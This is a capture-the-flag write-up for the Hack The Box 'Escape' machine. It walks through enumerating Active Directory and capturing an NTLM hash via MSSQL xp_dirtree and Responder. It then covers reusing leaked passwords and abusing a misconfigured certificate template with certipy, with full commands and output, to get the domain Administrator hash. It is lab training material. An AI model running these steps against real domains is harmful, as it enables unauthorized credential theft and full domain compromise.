








Introduction
This was a very fun box that showcased some realistic Active Directory attacks. The box starts off with me finding a public share in which I find a set of default credentials for MSSQL. Using those to login I run xp_dirtree to get the hash of user using responder which I then crack to get into the box. I then escalate privileges using some credentials in a log file and then do an ADCS atttack for the privesc to Administrator.
Nmap
Ports tcp open in nmap format
PORT STATE SERVICE REASON
53/tcp open domain syn-ack
88/tcp open kerberos-sec syn-ack
135/tcp open msrpc syn-ack
139/tcp open netbios-ssn syn-ack
389/tcp open ldap syn-ack
445/tcp open microsoft-ds syn-ack
1433/tcp open ms-sql-s syn-ack
Ports services and versions nmap format
# Nmap 7.93 scan initiated Sun Jul 30 17:21:55 2023 as: nmap -sC -sV -p 88,464,445,5985,49667,49689,9389,389,135,1433,139,49690,49710,56310,53,3269,593,3268,49714,636 -oA scans/Escape -Pn 10.129.228.253
Nmap scan report for DC (10.129.228.253)
Host is up (0.96s latency).
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2023-07-31 05:22:07Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after: 2023-11-18T21:20:35
|_ssl-date: 2023-07-31T05:23:42+00:00; +8h00m00s from scanner time.
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after: 2023-11-18T21:20:35
|_ssl-date: 2023-07-31T05:23:42+00:00; +8h00m01s from scanner time.
1433/tcp open ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info:
| 10.129.228.253:1433:
| Version:
| name: Microsoft SQL Server 2019 RTM
| number: 15.00.2000.00
| Product: Microsoft SQL Server 2019
| Service pack level: RTM
| Post-SP patches applied: false
|_ TCP port: 1433
|_ssl-date: 2023-07-31T05:23:43+00:00; +8h00m01s from scanner time.
| ms-sql-ntlm-info:
| 10.129.228.253:1433:
| Target_Name: sequel
| NetBIOS_Domain_Name: sequel
| NetBIOS_Computer_Name: DC
| DNS_Domain_Name: sequel.htb
| DNS_Computer_Name: dc.sequel.htb
| DNS_Tree_Name: sequel.htb
|_ Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-07-31T05:01:34
|_Not valid after: 2053-07-31T05:01:34
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-07-31T05:23:42+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after: 2023-11-18T21:20:35
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-07-31T05:23:42+00:00; +8h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after: 2023-11-18T21:20:35
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
49667/tcp open msrpc Microsoft Windows RPC
49689/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49690/tcp open msrpc Microsoft Windows RPC
49710/tcp open msrpc Microsoft Windows RPC
49714/tcp open msrpc Microsoft Windows RPC
56310/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 311:
|_ Message signing enabled and required
| smb2-time:
| date: 2023-07-31T05:23:06
|_ start_date: N/A
|_clock-skew: mean: 8h00m00s, deviation: 0s, median: 8h00m00s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 30 17:23:46 2023 -- 1 IP address (1 host up) scanned in 111.06 seconds
Ports UDP nmap format
Discovered open port 53/udp on 10.129.228.253
Enumeration
Port 88 - Kerberos
ma1ware@shadow:~/pentest/htb/boxes/Escape$ kerbrute userenum -d sequel.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.129.228.253 | tee scans/kerberos.log
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 07/30/23 - Ronnie Flathers @ropnop
2023/07/30 17:26:39 > Using KDC(s):
2023/07/30 17:26:39 > 10.129.228.253:88
2023/07/30 17:26:55 > [+] VALID USERNAME: guest@sequel.htb
2023/07/30 17:27:36 > [+] VALID USERNAME: administrator@sequel.htb
Port 139 - LDAP
Trying to enumerate ldap using ldapsearch:
$ ldapsearch -H ldap://10.129.228.253 -x -s base namingcontexts
...[trun]
namingcontexts: DC=sequel,DC=htb
...[trun]
$ ldapsearch -H ldap://10.129.228.253 -b 'DC=sequel,DC=htb'
SASL/DIGEST-MD5 authentication started
Please enter your password:
I'll come back to this later if I get any credentials.
Port 445 - SMB
Running CrackMapExec we get a share back with guest user:

Logging in to the share and checking if there are files we find a .pdf so I transfer it over to my system.

Looking at the PDF we find:

We find some credentials along with an email address: brandon.brown@sequel.htb
So if I encounter any other full names at least I know the pattern is fname.lname@sequel.htb
Also running exiftool returned this: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) obsidian/0.15.6 Chrome/100.0.4896.160 Electron/18.3.5 Safari/537.36 but I don't think it's important
Port 1433 - MSSQL
Logging in with the provided credentials my first thought was to enable xp_cmdshell but that didn't work so I proceeded to run xp_dirtree to get the hash using responder


The hash cracked to REGGIE1234ronnie
So now we have new creds: sql_svc:REGGIE1234ronnie
Logging in with WinRM
We can use evil-winrm to login to the box

In the C drive there is a folder SQLServer in which a log file is present which leaks credentials
2022-11-18 13:43:07.44 Logon Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
We can proceed to login as him using evil-winrm
$ evil-winrm -i sequel.htb -u 'ryan.cooper' -p 'NuclearMosquito3'
Running a bloodhound ingestor

Opening it in bloodhound we find that Ryan.Cooper is an unrolled member of CERTIFICATE SERVICE DCOM ACCESS
I'll upload Certify.exe to the target machine and see if it finds anything!
[!] Vulnerable Certificates Templates :
CA Name : dc.sequel.htb\sequel-DC-CA
Template Name : UserAuthentication
Schema Version : 2
Validity Period : 10 years
Renewal Period : 6 weeks
msPKI-Certificate-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT
mspki-enrollment-flag : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
Authorized Signatures Required : 0
pkiextendedkeyusage : Client Authentication, Encrypting File System, Secure Email
mspki-certificate-application-policy : Client Authentication, Encrypting File System, Secure Email
Permissions
Enrollment Permissions
Enrollment Rights : sequel\Domain Admins S-1-5-21-4078382237-1492182817-2568127209-512
sequel\Domain Users S-1-5-21-4078382237-1492182817-2568127209-513
sequel\Enterprise Admins S-1-5-21-4078382237-1492182817-2568127209-519
Object Control Permissions
Owner : sequel\Administrator S-1-5-21-4078382237-1492182817-2568127209-500
WriteOwner Principals : sequel\Administrator S-1-5-21-4078382237-1492182817-2568127209-500
sequel\Domain Admins S-1-5-21-4078382237-1492182817-2568127209-512
sequel\Enterprise Admins S-1-5-21-4078382237-1492182817-2568127209-519
WriteDacl Principals : sequel\Administrator S-1-5-21-4078382237-1492182817-2568127209-500
sequel\Domain Admins S-1-5-21-4078382237-1492182817-2568127209-512
sequel\Enterprise Admins S-1-5-21-4078382237-1492182817-2568127209-519
WriteProperty Principals : sequel\Administrator S-1-5-21-4078382237-1492182817-2568127209-500
sequel\Domain Admins S-1-5-21-4078382237-1492182817-2568127209-512
sequel\Enterprise Admins S-1-5-21-4078382237-1492182817-2568127209-519
Since Domain users have enrollment rights this is an easy privesc, I'll switch over to certipy since it's just easier for me.
But before all of this, make sure that you sync your time with the DC using rdate
$ sudo rdate -n 10.129.228.253
Then we can request the certificate to get the .pfx
ma1ware@shadow:~/pentest/htb/boxes/Escape$ certipy req -ca sequel-DC-CA -template UserAuthentication -upn administrator@sequel.htb -u ryan.cooper -p 'NuclearMosquito3' -target sequel.htb
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 11
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx
Now we just need to get the hash:
ma1ware@shadow:~/pentest/htb/boxes/Escape$ certipy auth -pfx administrator.pfx
Certipy v4.7.0 - by Oliver Lyak (ly4k)
/home/ma1ware/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.12) or chardet (5.1.0)/charset_normalizer (2.0.12) doesn't match a supported version!
warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
And now we can login as Administrator on the box

And that's the box!
Tip: You can also use evil-winrm with -H to login in as Administrator.